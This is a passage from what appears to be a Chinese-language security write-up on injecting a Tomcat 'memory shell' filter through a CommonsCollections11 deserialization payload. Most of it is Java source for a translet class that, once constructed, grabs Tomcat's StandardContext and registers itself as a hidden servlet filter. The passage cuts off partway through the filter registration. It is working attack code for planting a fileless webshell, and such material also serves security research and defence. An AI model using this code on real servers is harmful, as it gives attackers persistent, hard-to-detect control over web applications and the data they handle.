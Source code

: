 ### 反序列化注入Filter内存马

同理，把加载内存马的语句放在构造方法中，在`CommonsCollections11`反序列化时执行
```java
package com.memoryshell;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.Context;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.loader.WebappClassLoaderBase;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;

import javax.servlet.*;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Map;

/**
 * Created by dotast on 2022/11/21 11:42
 */
public class TomcatEchoInjectFilter extends AbstractTranslet implements Filter {
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }

    public TomcatEchoInjectFilter() throws Exception{
        try {
            String filterName = "TomcatEchoInjectFilter";
            // 获取StandardContext对象
            WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();

            // 利用FilterDef对filter进行封装
            FilterDef filterDef = new FilterDef();
            filterDef.setFilter(this);
            filterDef.setFilterName(filterName);
            filterDef.setFilterClass(this.getClass().getName());
            standardContext.addFilterDef(filterDef);

            // 创建FilterMap，将filterName和urlPatterns进行绑定
            FilterMap filterMap = new FilterMap();
```